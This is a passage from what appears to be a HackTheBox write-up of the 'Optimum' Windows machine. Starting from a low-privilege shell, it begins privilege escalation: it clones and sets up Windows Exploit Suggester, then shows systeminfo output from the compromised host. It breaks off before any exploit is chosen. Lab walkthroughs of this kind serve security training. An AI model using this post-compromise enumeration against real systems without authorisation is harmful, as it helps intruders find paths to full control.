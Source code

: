 ```
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
optimum\kostas
```

## Privilege Escalation

Now that we have a low privilege shell on the host, it is time to start looking into how we are going to escalate our privileges. One thing that I have mentioned before in previous HackTheBox blog posts about Windows hosts is running `whoami /all` and `systeminfo` are some good things to do when you first get on a box since it will give you a vast amount of information.  For this box in particular I am going to be utilizing `systeminfo` with a tool known as [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester). Basically given the output of `systeminfo` on a given Windows host, if you feed the output into **Windows Exploit Suggester**, it will begin looking for known exploits based off of the `systeminfo` output. So let's go ahead and clone it onto our host.

```
git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git
```

Go ahead and change directories into `Windows-Exploit-Suggester`.

```
cd Windows-Exploit-Suggester
```

We are going to install the dependencies that are specified in the `readme` document.

```
pip install xlrd --upgrade
```

Lastly we are going to update the database since it creates an excel spreadsheet from the Microsoft vulnerability database and puts it into our working directory.

```
./windows-exploit-suggester.py --update
```

With all of that done we are ready to use this tool. Go back to the compromised Windows host and run `systeminfo`. My output looks like the following:

```
Host Name:                 OPTIMUM        
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation  
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User   
Registered Organization:                  
Product ID:                00252-70000-00000-AA535
Original Install Date:     18/3/2017, 1:51:36 
System Boot Time:          21/6/2021, 3:49:03 
System Manufacturer:       VMware, Inc.   
System Model:              VMware Virtual Platform
System Type:               x64-based PC   
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows     
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek       
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest
```